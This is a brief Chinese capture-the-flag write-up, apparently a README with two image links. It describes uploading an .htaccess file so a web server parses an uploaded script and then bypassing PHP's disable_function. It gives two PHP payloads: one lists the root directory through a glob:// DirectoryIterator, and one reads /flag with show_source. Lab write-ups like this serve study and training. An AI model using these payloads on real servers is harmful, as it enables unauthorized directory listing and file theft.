


# 知识点
.htaccess配置文件<br />disable_function绕过
# 思路
上传配置文件进行解析<br /><br /><br />访问文件绕过disable_function进行命令执行
```php
hack=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```
```php
hack=show_source("/flag")
```
